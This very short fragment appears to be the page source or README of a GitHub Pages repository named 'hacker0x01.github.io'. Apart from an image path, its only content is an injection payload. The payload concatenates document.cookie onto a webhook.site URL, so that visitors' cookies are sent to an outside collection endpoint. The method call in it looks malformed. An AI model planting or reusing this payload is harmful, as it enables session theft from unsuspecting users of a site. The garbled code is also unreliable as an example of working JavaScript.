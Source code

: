 # hacker0x01.github.io


https://webhook.site/e2544ebe-491d-4768-b339-db33a72eb773?q=1 `+ document.cookie.escape() +`
